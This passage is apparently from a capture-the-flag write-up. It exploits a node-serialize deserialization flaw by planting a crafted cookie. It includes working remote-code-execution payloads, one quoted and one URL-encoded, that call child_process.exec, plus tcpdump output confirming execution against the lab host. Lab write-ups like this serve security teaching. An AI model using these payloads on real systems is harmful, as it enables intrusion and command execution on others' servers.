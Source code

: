 This decodes to:

```

{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

```

It is worth noting that all the non-letters/digits in the cookie are URL encoded.

#### Exploit POC

[This blog post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) does a nice job writing up the path to exploit node-serialize. The example payload they give is:

```

{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });}()"}

```

The source code makes it clear that this is checked before the `user` or `sign` fields, so I can just make this my cookie. I’ll start with:

```

{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.8', function(error, stdout, stderr){console.log(stdout)});}()"}

```

This URL encodes to:

```

%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%38%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d

```

It is important to URL encode (I’ll look at why I need to URL encode this in [Beyond Root](#bad-characters-in-deserialization-payload)).

I’ll start `tcpdump`, and send this in repeater, which leads to ICMP packets:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:37:28.886060 IP 10.10.11.139 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
13:37:28.886083 IP 10.10.14.8 > 10.10.11.139: ICMP echo reply, id 1, seq 1, length 64

```
